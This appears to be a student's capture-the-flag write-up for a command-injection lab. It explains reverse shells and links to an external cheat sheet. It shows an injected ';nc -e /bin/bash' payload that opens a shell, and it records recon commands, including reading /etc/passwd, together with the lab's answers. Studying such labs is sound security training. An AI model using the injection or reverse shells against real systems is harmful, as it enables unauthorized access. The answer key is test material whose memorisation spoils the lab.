



# The point

- spawn a reverse shell to become the user that the web server is running as.

:warning: create a remote shell connection but the target system initiates the connection back to the attackers machine.

- Attacker Listens: The attacker sets up a program on their own computer that listens for incoming connections on a specific port.
- Target Establishes Connection: The vulnerable code on the target system (like the one you provided) executes a command that creates a connection out to the attacker's machine and port.
- Shell Session: Once the connection is established, the attacker now has a shell session on the target system. This grants them access to issue commands and potentially compromise the system.

```
;nc -e /bin/bash
```

- Use netcat to connect to a port (attacker's machine) that's listening for incoming connections.
- Once connected, it executes the /bin/bash command on the server, giving the attacker a shell session.

# Reverse Shell Cheat Sheet

:warning: Content of this page has been moved to [InternalAllTheThings/cheatsheet/shell-reverse](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

- [Tools](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#tools)
- [Reverse Shell](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#reverse-shell)
  - [Awk](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#awk)
  - [Automatic Reverse Shell Generator](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#revshells)
  - [Bash TCP](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)
  - [Bash UDP](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-udp)
  - [C](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#c)
  - [Dart](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#dart)
  - [Golang](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#golang)
  - [Groovy Alternative 1](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#groovy-alternative-1)
  - [Groovy](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#groovy)
  - [Java Alternative 1](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#java-alternative-1)
  - [Java Alternative 2](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#java-alternative-2)
  - [Java](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#java)
  - [Lua](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#lua)
  - [Ncat](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#ncat)
  - [Netcat OpenBsd](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#netcat-openbsd)
  - [Netcat BusyBox](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#netcat-busybox)
  - [Netcat Traditional](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#netcat-traditional)
  - [NodeJS](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#nodejs)
  - [OGNL](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#ognl)
  - [OpenSSL](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#openssl)
  - [Perl](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl)
  - [PHP](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#php)
  - [Powershell](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)
  - [Python](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python)
  - [Ruby](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#ruby)
  - [Rust](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#rust)
  - [Socat](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#socat)
  - [Telnet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#telnet)
  - [War](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#war)
- [Meterpreter Shell](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#meterpreter-shell)
  - [Windows Staged reverse TCP](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#windows-staged-reverse-tcp)
  - [Windows Stageless reverse TCP](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#windows-stageless-reverse-tcp)
  - [Linux Staged reverse TCP](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#linux-staged-reverse-tcp)
  - [Linux Stageless reverse TCP](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#linux-stageless-reverse-tcp)
  - [Other platforms](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#other-platforms)
- [Spawn TTY Shell](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#spawn-tty-shell)
- [References](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#references)

- Linux:
  whoami
  id
  ifconfig/ip addr
  uname -a
  ps -ef
  Windows

- Windows:
  whoami
  ver
  ipconfig
  tasklist
  netstat -an

[Question_1]

What strange text file is in the website root directory?
Answer: drpepper.txt

Explain: I use `pwd` to see what point working directory im in so im it var/www/html which is root folder then i use `ls` to list out all the file and the output:
css drpepper.txt evilshell.php index.php js

[Question_2]
I concatenate /etc/passwd using `cat /etc/passwd`
the /etc/passwd save the information about all the user on system (only root can access)
Output:


[Question_3]
whoami: to see who are accessing the machine

Answer: www-data

[Question_4]
getent: to look up in user details on Linux
`getent passwd www-data`


Answer: /usr/sbin/nologin

[Question_5]
`lsb_release -a` to check the ubuntu version.

Answer: 18.04.4

[Question_6]
`/etc/motd`: MOTD stands for Message of the Day. It's a common feature on computer systems that displays a message to users when they log in. The MOTD content is usually stored in a file named.

`/etc/update-motd.d`: This directory introduces a more dynamic approach to managing the MOTD. It contains executable shell scripts.

So the motd is a file and the update-motd.d is a folder

From the hint, we input in cat /etc/update-motd-d/00-header
Output:

